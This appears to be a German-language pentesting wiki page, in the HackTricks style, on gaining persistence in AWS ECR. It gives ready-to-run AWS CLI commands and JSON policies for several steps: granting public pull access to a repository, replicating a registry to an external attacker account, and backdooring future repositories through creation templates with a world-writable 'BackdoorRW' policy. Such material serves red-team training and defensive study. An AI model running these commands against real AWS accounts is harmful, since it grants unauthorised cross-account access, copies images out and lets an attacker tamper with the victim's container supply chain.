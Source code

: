 # AWS - ECR Persistenz

{{#include ../../../../banners/hacktricks-training.md}}

## ECR

Für weitere Informationen siehe:

{{#ref}}
../../aws-services/aws-ecr-enum.md
{{#endref}}

### Verstecktes Docker-Image mit bösartigem Code

Ein Angreifer könnte **ein Docker-Image hochladen, das bösartigen Code enthält**, in ein ECR-Repository und es nutzen, um Persistenz im Ziel-AWS-Konto zu erreichen. Der Angreifer könnte das bösartige Image dann unauffällig in verschiedenen Services des Kontos bereitstellen, wie z. B. Amazon ECS oder EKS.

### Repository-Richtlinie

Füge einem einzelnen Repository eine Richtlinie hinzu, die dir (oder allen) Zugriff auf das Repository gewährt:
```bash
aws ecr set-repository-policy \
--repository-name cluster-autoscaler \
--policy-text file:///tmp/my-policy.json

# With a .json such as

{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
> [!WARNING]
> Beachte, dass ECR von Benutzern **Berechtigungen** verlangt, um Aufrufe an die **`ecr:GetAuthorizationToken`** API über eine IAM-Policy zu machen, **bevor sie sich** bei einer Registry authentifizieren und Images in ein Amazon ECR-Repository pushen oder daraus pullen können.

### Registry-Richtlinie & kontoübergreifende Replikation

Es ist möglich, eine Registry automatisch in einem externen Account zu replizieren, indem man die kontoübergreifende Replikation konfiguriert; dabei muss man das **externe Konto angeben**, in das die Registry repliziert werden soll.

<figure><img src="../../../images/image (79).png" alt=""><figcaption></figcaption></figure>

Zuerst müssen Sie dem externen Account Zugriff auf die Registry gewähren mit einer **Registry-Richtlinie** wie:
```bash
aws ecr put-registry-policy --policy-text file://my-policy.json

# With a .json like:

{
"Sid": "asdasd",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::947247140022:root"
},
"Action": [
"ecr:CreateRepository",
"ecr:ReplicateImage"
],
"Resource": "arn:aws:ecr:eu-central-1:947247140022:repository/*"
}
```
Wenden Sie dann die Replikationskonfiguration an:
```bash
aws ecr put-replication-configuration \
--replication-configuration file://replication-settings.json \
--region us-west-2

# Having the .json a content such as:
{
"rules": [{
"destinations": [{
"region": "destination_region",
"registryId": "destination_accountId"
}],
"repositoryFilters": [{
"filter": "repository_prefix_name",
"filterType": "PREFIX_MATCH"
}]
}]
}
```
### Repository Creation Templates (Präfix-Backdoor für zukünftige repos)

Abuse ECR Repository Creation Templates, um automatisch jedes Repository zu backdooren, das ECR unter einem kontrollierten Präfix automatisch erstellt (z. B. via Pull-Through Cache oder Create-on-Push). Dies gewährt dauerhaften unautorisierten Zugriff auf zukünftige repos, ohne bestehende anzufassen.

- Erforderliche Berechtigungen: ecr:CreateRepositoryCreationTemplate, ecr:DescribeRepositoryCreationTemplates, ecr:UpdateRepositoryCreationTemplate, ecr:DeleteRepositoryCreationTemplate, ecr:SetRepositoryPolicy (wird von der Vorlage verwendet), iam:PassRole (falls eine benutzerdefinierte Rolle an die Vorlage angehängt ist).
- Auswirkung: Jedes neue Repository, das unter dem Zielpräfix erstellt wird, erbt automatisch eine vom Angreifer kontrollierte Repository-Richtlinie (z. B. cross-account read/write), Tag-Veränderbarkeit und Standardwerte für Scans.

<details>
<summary>Backdoor future PTC-created repos under a chosen prefix</summary>
```bash
# Region
REGION=us-east-1

# 1) Prepare permissive repository policy (example grants everyone RW)
cat > /tmp/repo_backdoor_policy.json <<'JSON'
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "BackdoorRW",
"Effect": "Allow",
"Principal": {"AWS": "*"},
"Action": [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer",
"ecr:InitiateLayerUpload",
"ecr:UploadLayerPart",
"ecr:CompleteLayerUpload",
"ecr:PutImage"
]
}
]
}
JSON

# 2) Create a Repository Creation Template for prefix "ptc2" applied to PULL_THROUGH_CACHE
aws ecr create-repository-creation-template   --region $REGION   --prefix ptc2   --applied-for PULL_THROUGH_CACHE   --image-tag-mutability MUTABLE   --repository-policy file:///tmp/repo_backdoor_policy.json

# 3) Create a Pull-Through Cache rule that will auto-create repos under that prefix
#    This example caches from Amazon ECR Public namespace "nginx"
aws ecr create-pull-through-cache-rule   --region $REGION   --ecr-repository-prefix ptc2   --upstream-registry ecr-public   --upstream-registry-url public.ecr.aws   --upstream-repository-prefix nginx

# 4) Trigger auto-creation by pulling a new path once (creates repo ptc2/nginx)
acct=$(aws sts get-caller-identity --query Account --output text)
aws ecr get-login-password --region $REGION | docker login --username AWS --password-stdin ${acct}.dkr.ecr.${REGION}.amazonaws.com

docker pull ${acct}.dkr.ecr.${REGION}.amazonaws.com/ptc2/nginx:latest

# 5) Validate the backdoor policy was applied on the newly created repository
aws ecr get-repository-policy --region $REGION --repository-name ptc2/nginx --query policyText --output text | jq .
```
</details>

{{#include ../../../../banners/hacktricks-training.md}}
